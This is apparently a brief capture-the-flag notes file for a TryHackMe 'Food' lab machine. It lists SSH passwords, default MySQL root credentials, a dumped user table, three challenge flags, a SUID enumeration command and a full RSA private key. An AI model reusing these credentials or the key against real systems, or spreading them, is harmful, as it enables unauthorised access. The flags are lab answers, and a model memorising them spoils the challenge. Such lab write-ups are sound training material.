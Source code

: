 # THM-Koth-Food -->

# ssh credential:
pasta:pastaisdynamic 

ramen:noodlesRTheBest

food:givemecookies

# root/mysql:
Pass the linpeas enumeration authorization information and find that mysql uses the default login password: root:root
/tmp$ mysql -u root -p

Get the login credentials of flag2 and ramen

mysql> select * from user;
ERROR 1146 (42S02): Table 'users.user' doesn't exist
mysql> select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+

# FLAGS:
thm{7baf5aa8491a4b7b1c2d231a24aec575}

thm{2f30841ff8d9646845295135adda8332}

thm{58a3cb46855af54d0660b34fd20a04c1}

# Raise authority to root
find all suid:
/tmp$ find / -perm -u=s -type f 2>/dev/null

# pasta id_rsa:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuMq9/6Il5rB2QANbYbuYOdb+16f9tIc/85ZW7vvelkzNHADr
HxUKmwcY53C0VWaOzQTzy+xFVwiKuVG3L2z2LQ2W6rSWbw3XCAy9BWnCmXewGOGJ
J7O0tWZoptlD4EY/1/YHdw9f49MWss7yJWT3V/pfytUrKJPiIaVbsHyahhbV1JLc
VfAq1jxPW3+LMbmvP6unvi5X0B4xoGbm64eTWQXHKak1A1wyjYFZtFz98ialAp/+
lwla6MpgJrtgeY6jjRHhkUd/WT0ud1JH+N4Lbldn1Z3Swc6TyEaDrO7v5YLe9ac0
jo/bfhr60X25apItar3VqkWicINZIrJMWSpzJwIDAQABAoIBADdnSdnYAqcMpxeA
Kii+NuC4jgWYb19t4YWlwIC8cTr84c4QlG3oQBrE4Pma9+ZW7l+XqYStXQjAHd98
GYEVmSVe2q2Z4TSAoMTgFNgHonmiweBj1lxZ68crYhsMLuaSCVg1gn121ZgX1Mld
dIozoFj3Tzsf+GWdGQJfcoMSiL3EngQgpxnYGBw5c1AC7DmxFr8NZq2ZlopvlO3Y
bgPWKLtORA4Mksbml8dM1yHsSq8Qg/dCtfe6ldGliqpLQMGj49UWvhbfr63c4+de
a/M247ykFXsW0q9e/ACYlDPFr177PMDK/0KRnY0JTtUeowoqYangAbp1ZTHZpNpj
hGEXGOkCgYEA7TDAu8bl+wDdl6XSdWZIJW2v7iV5ksOPBIqRU8xDX05nnnTY4uqO
9OKPwQo2Qx1gmnZpDAmi+ubW2TVtO75nPqcd/mofycrsKCvaZoGGfKkqyIfdPLZx
8pUsqd1gT2PPK+R22x9tYurlXCJjP2wXEOznBdyxbLYoYzRaIv8weTsCgYEAx3I8
8jWYddhl+wklyuKNX/hqeNgWSZAsUq4vyXK5x4u7Vqd9g0lyJhMCMHBCa7rEDCPf
U6mFhPeGDmqrECxZ9xfRofZq+AwJHAXxcmoou7z7S1Ga1P8N1y7LQGgmcrBw2lkf
kViBaMNGJFOLgtR/QbKzXa3TlfRSZ5sIy0N+7wUCgYEAnqsrczIV7PhiRC0Agdqf
TrJ2q0fUcRJzHOWZXEZbl2j6tiySXhHs+fKJmeg77l+7nPizQwM7TL6ZYQp1fS7d
IDNpRCU4CKS/oAvd+Q6Sqdf8r9L7c77UsSOLkkJuSA2LrGAUBnealD5wmlbCr82e
DIt97BT7d67Pi7WcyqaNhbsCgYB9TzErnLDlmci5KM4t4pmgqpt6wYl/Pq4aZIZx
szs2PHy/vQwG6KZndZnyhRW2SenTFtbB4ciZ+kqn1C0WREdiD/0OHZynrCgtCy7g
DAL7sYjRkbwOBxHTGPtqxAUkGedNyKEk2M6127q+KB+HW6t4w6YePZCqro73uViV
HRsrYQKBgQCaCQD3EX7im9B+CL2XfTCs3fp/WgL6Xw0otiMKHqEuBM9upU4LYs4F
jXaj5A1iFJibD6YoGGBt3sc7Wl2cS4YJO24GtOQlsgK/W2+VQANwQaYZOJPwrR2c
19IyrUe3VZjDbJQpLO1TwBdKj/MpcQhhB+m6WXhVYWkixfTTM6VSyg==
-----END RSA PRIVATE KEY-----
```

# --END--
